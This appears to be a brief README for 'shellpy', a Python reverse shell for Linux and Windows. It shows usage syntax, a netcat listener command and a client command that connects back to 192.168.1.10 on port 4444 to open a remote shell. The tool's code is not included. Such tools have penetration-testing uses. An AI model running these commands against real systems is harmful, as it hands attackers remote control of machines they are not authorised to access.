 # shellpy
Python Reverse Shell (Linux/Windows)
> Usage:
```
python shell.py <server> <port> <linux/windows>
```

# Example

> Run listening (server):
```
nc -lvp 4444
```
> Run client:
```
python shell.py 192.168.1.10 4444 linux
```
